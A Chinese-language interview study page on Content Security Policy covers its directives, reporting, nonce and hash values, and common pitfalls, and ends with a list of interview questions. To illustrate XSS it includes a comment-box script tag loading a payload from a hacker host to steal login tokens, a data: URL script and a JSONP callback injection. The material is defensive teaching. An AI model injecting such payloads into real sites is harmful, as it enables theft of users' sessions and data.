



+++
title = "Content Security Policy"
date = '2024-10-02T00:00:00+08:00'
lastmod = '2024-12-03T00:00:00+08:00'
draft = false
weight = 4
tags = ["面试", "前端", "前端安全", "Content Security Policy", "ecool"]
categories = ["前端开发", "面试"]
source = "https://fe.ecool.fun/knowledge-learn"
+++
跨域脚本攻击 `XSS(Cross Site Scripting)` 是最常见、危害最大的网页安全漏洞。

比如网站有个留言板功能，但后台未对用户输入进行过滤，攻击者可以在留言编辑框中输入

```xml
<script src="http://www.hacker.org/xss.payload.js"></script>
```

`xss.payload.js`可以获取老浏览用户的信息，如登录`token`、`用户的个人资料`等。以前的防御手段主要是对用户输入进行过滤如：去除`html`标签，实体化，关键字过滤等等，这样一来，最终的结果就是后台的大多数代码都是在做字符串验证，非常的让人不舒服。

为了防止它们，要采取很多编程措施，非常麻烦。很多人提出，能不能根本上解决问题，浏览器自动禁止外部注入恶意脚本？

所以`W3 org`引入了`CSP`，它从另外一层面给浏览器提供了保护。这就是"网页安全政策"（`Content Security Policy`，缩写 `CSP`）的来历。本文详细介绍如何使用 `CSP` 防止 `XSS` 攻击。

## 一、简介

**`CSP` 的实质就是白名单制度**，开发者明确告诉客户端，哪些外部资源可以加载和执行，等同于提供白名单。严格规定页面中哪些资源允许有哪些资源，不在指定范围内的统统拒绝。它的实现和执行全部由浏览器完成，开发者只需提供配置。

`CSP` 大大增强了网页的安全性。攻击者即使发现了漏洞，也没法注入脚本，除非还控制了一台列入了白名单的可信主机。

两种方法可以启用 `CSP`。

**一种是通过 `HTTP` 头信息的`Content-Security-Policy`的字段**。



```css
Content-Security-Policy: script-src 'self'; object-src 'none';
style-src cdn.example.org third-party.org; child-src https:
```

**另一种是通过网页的`<meta>`标签**。

```css
<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
```

上面代码中，`CSP` 做了如下配置。

- 脚本：只信任当前域名
- `<object>`标签：不信任任何`URL`，即不加载任何资源
- 样式表：只信任`cdn.example.org`和`third-party.org`
- 框架（`frame`）：必须使用`HTTPS`协议加载
- 其他资源：没有限制

启用后，不符合 `CSP` 的外部资源就会被阻止加载。

`Chrome` 的报错信息。 

## 二、限制选项

`CSP` 提供了很多限制选项，涉及安全的各个方面。

### 2.1 资源加载限制

以下选项限制各类资源的加载。

- `script-src`：外部脚本
- `style-src`：样式表
- `img-src`：图像
- `media-src`：媒体文件（音频和视频）
- `font-src`：字体文件
- `object-src`：插件（比如 `Flash`）
- `child-src`：框架
- `frame-ancestors`：嵌入的外部资源（比如`<frame>`、`<iframe>`、`<embed>`和`<applet>`）
- connect-src：HTTP 连接（通过 XHR、WebSockets、EventSource等）
- worker-src：worker脚本
- manifest-src：manifest 文件

### 2.2 `default-src`

default-src用来设置上面各个选项的默认值。

```arduino
Content-Security-Policy: default-src 'self'
```

上面代码限制所有的外部资源，都只能从当前域名加载。

如果同时设置某个单项限制（比如`font-src`）和`default-src`，前者会覆盖后者，即字体文件会采用`font-src`的值，其他资源依然采用`default-src`的值。

### 2.3 `URL` 限制

有时，网页会跟其他 `URL` 发生联系，这时也可以加以限制。

- `frame-ancestors`：限制嵌入框架的网页
- `base-uri`：限制`<base#href>`
- `form-action`：限制`<form#action>`

### 2.4 其他限制

其他一些安全相关的功能，也放在了 `CSP` 里面。

- `block-all-mixed-content`：`HTTPS` 网页不得加载 `HTTP` 资源（浏览器已经默认开启）
- `upgrade-insecure-requests`：自动将网页上所有加载外部资源的 `HTTP` 链接换成 `HTTPS` 协议
- `plugin-types`：限制可以使用的插件格式
- `sandbox`：浏览器行为的限制，比如不能有弹出窗口等

### 2.5 `report-uri`

有时，我们不仅希望防止 `XSS`，还希望记录此类行为。`report-uri`就用来告诉浏览器，应该把注入行为报告给哪个网址。

```css
Content-Security-Policy: default-src 'self'; ...; report-uri /my_amazing_csp_report_parser;
```

上面代码指定，将注入行为报告给`/my_amazing_csp_report_parser`这个 `URL`。

浏览器会使用`POST`方法，发送一个`JSON`对象，下面是一个例子。

```json
{
  "csp-report": {
    "document-uri": "http://example.org/page.html",
    "referrer": "http://evil.example.com/",
    "blocked-uri": "http://evil.example.com/evil.js",
    "violated-directive": "script-src 'self' https://apis.google.com",
    "original-policy": "script-src 'self' https://apis.google.com; report-uri http://example.org/my_amazing_csp_report_parser"
  }
}
```



## 三、`Content-Security-Policy-Report-Only`

除了`Content-Security-Policy`，还有一个`Content-Security-Policy-Report-Only`字段，表示不执行限制选项，只是记录违反限制的行为。

它必须与`report-uri`选项配合使用。

```css
Content-Security-Policy-Report-Only: default-src 'self'; ...; report-uri /my_amazing_csp_report_parser
```

## 四、选项值

每个限制选项可以设置以下几种值，这些值就构成了白名单。

- 主机名：`example.org，https://example.com:443`
- 路径名：`example.org/resources/js/`
- 通配符：`*.example.org，*://*.example.com:*`（表示任意协议、任意子域名、任意端口）
- 协议名：`https:、data:`
- 关键字`'self'`：当前域名，需要加引号
- 关键字`'none'`：禁止加载任何外部资源，需要加引号

多个值也可以并列，用空格分隔。

```less
Content-Security-Policy: script-src 'self' https://apis.google.com
```

如果同一个限制选项使用多次，只有第一次会生效。

```bash
# 错误的写法
script-src https://host1.com; script-src https://host2.com

# 正确的写法
script-src https://host1.com https://host2.com
```

如果不设置某个限制选项，就是默认允许任何值。

## 五、script-src 的特殊值

除了常规值，`script-src`还可以设置一些特殊值。注意，下面这些值都必须放在单引号里面。

- `'unsafe-inline'`：允许执行页面内嵌的`&lt;script>`标签和事件监听函数
- `unsafe-eval`：允许将字符串当作代码执行，比如使用`eval、setTimeout、setInterval`和`Function`等函数。
- `nonce`值：每次`HTTP`回应给出一个授权`token`，页面内嵌脚本必须有这个`token`，才会执行
- `hash`值：列出允许执行的脚本代码的`Hash`值，页面内嵌脚本的哈希值只有吻合的情况下，才能执行。

`nonce`值的例子如下，服务器发送网页的时候，告诉浏览器一个随机生成的`token`。

```css
Content-Security-Policy: script-src 'nonce-EDNnf03nceIOfn39fn3e9h3sdfa'
```

页面内嵌脚本，必须有这个`token`才能执行。

```xml
<script nonce=EDNnf03nceIOfn39fn3e9h3sdfa>
  // some code
</script>
```

hash值的例子如下，服务器给出一个允许执行的代码的hash值。

```css
Content-Security-Policy: script-src 'sha256-qznLcsROx4GACP2dm0UCKCzCG-HiZ1guq6ZZDob_Tng='
```

下面的代码就会允许执行，因为hash值相符。

```xml
<script>alert('Hello, world.');</script>
```

注意，计算`hash`值的时候，`<script>`标签不算在内。

除了`script-src`选项，`nonce`值和`hash`值还可以用在`style-src`选项，控制页面内嵌的样式表。

## 六、注意点

（1）`script-src`和`object-src`是必设的，除非设置了`default-src`。

因为攻击者只要能注入脚本，其他限制都可以规避。而`object-src`必设是因为 `Flash` 里面可以执行外部脚本。

（2）`script-src`不能使用`unsafe-inline`关键字（除非伴随一个`nonce`值），也不能允许设置`data:URL`。

下面是两个恶意攻击的例子。

```ini

<script src="data:text/javascript,evil()"></script>
```

（3）必须特别注意 `JSONP` 的回调函数。

```scss
<script
src="/path/jsonp?callback=alert(document.domain)//">
</script>
```

上面的代码中，虽然加载的脚本来自当前域名，但是通过改写回调函数，攻击者依然可以执行恶意代码。

## 常见考点

### **1. CSP 的基本概念**

#### **问题**：

- 什么是 Content Security Policy（CSP）？
- CSP 的主要目的是什么？它主要防御哪些类型的攻击？
- CSP 的核心思想是什么？

**关键点**：

- CSP 是一种安全机制，用于防止 XSS（跨站脚本攻击）和数据注入等攻击。
- 它通过限定资源的加载源来保护网页安全。

---

### **2. CSP 的工作原理**

#### **问题**：

- CSP 是如何工作的？它的基本流程是什么？
- CSP 的声明方式有哪些？如何通过 HTTP Header 或 `<meta>` 标签配置 CSP？
- 浏览器如何响应 CSP 策略的违规行为？

**关键点**：

- 通过 HTTP 响应头的 `Content-Security-Policy` 或 HTML 中的 `<meta http-equiv="Content-Security-Policy" content="...">` 声明。
- 浏览器会阻止加载与 CSP 策略不匹配的资源，并在控制台输出相关警告。

---

### **3. CSP 的配置与规则**

#### **问题**：

- CSP 中的常见指令有哪些？分别有什么作用？<br>
  - `default-src`：默认资源加载策略。
  - `script-src`：限制脚本加载来源。
  - `style-src`：限制样式表来源。
  - `img-src`：限制图片来源。
  - `connect-src`：限制 AJAX 请求和 WebSocket 连接来源。
  - `frame-src` 和 `child-src`：限制 iframe 内容来源。
- 什么是 `nonce` 和 `hash`？它们在 CSP 中的作用是什么？
- 如何配置 CSP 以允许特定的第三方资源？

**示例**：

```http
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'; style-src 'self' 'unsafe-inline';
```

**解析**：

- 仅允许来自当前域名的资源加载。
- 脚本资源需要携带特定的 `nonce`。
- 样式资源允许使用内联样式（`unsafe-inline`）。

---

### **4. CSP 的安全保障**

#### **问题**：

- CSP 如何防御 XSS 攻击？与其他防御方法相比有什么优势？
- 如果配置不当，CSP 是否可能带来新的安全问题？
- CSP 能否完全阻止所有类型的 XSS 攻击？为什么？

**关键点**：

- CSP 限制了资源的加载来源，但无法防止逻辑上的漏洞。
- CSP 必须结合其他安全措施（如输入验证、输出编码等）才能构建完整的防护体系。

---

### **5. CSP 的常见问题**

#### **问题**：

- 什么是 `unsafe-inline` 和 `unsafe-eval`？为什么不建议使用它们？
- 如果某些第三方库（如 Google Analytics）不兼容 CSP，如何处理？
- 浏览器不支持 CSP 时，如何应对？

**关键点**：

- 使用 `nonce` 或 `hash` 替代 `unsafe-inline`。
- 针对第三方库，可通过策略放宽特定资源的加载限制。
- 对于不支持 CSP 的浏览器，可辅以其他安全机制。

---

### **6. CSP 的实践应用**

#### **问题**：

- 在实际项目中，如何配置 CSP 来保护站点？
- 如何逐步部署 CSP 策略以避免影响正常功能？
- 项目中是否使用过 **CSP Report**？如何通过报告分析和优化策略？

**关键点**：

- 开始时可以使用 `Content-Security-Policy-Report-Only` 来监控 CSP 策略是否有影响。
- 配置 `report-uri` 或 `report-to` 收集违规日志。

---

### **7. CSP 的限制与挑战**

#### **问题**：

- CSP 对开发流程有什么影响？可能带来哪些额外的工作量？
- 如何应对 CSP 对某些动态功能（如动态脚本加载）的限制？
- 在前后端分离项目中，如何设计 CSP 策略？

---

### **8. 场景化问题**

#### **问题**：

- 如果你的网站使用了一些内联脚本（如 `<script>` 中直接包含代码），如何配置 CSP 以避免报错？
- 如果一个外部广告服务需要加载第三方脚本，而你又不信任它，如何配置 CSP？
- 有人抱怨某些功能在启用 CSP 后失效，如何排查问题？

---

### **9. CSP 与现代前端架构**

#### **问题**：

- 在单页应用（SPA）中，如何动态管理 CSP 策略？
- 如果使用了 Webpack 动态加载资源，如何让 CSP 与之兼容？
- 在支持 HTTP/3 的项目中，CSP 是否有特殊配置需求？
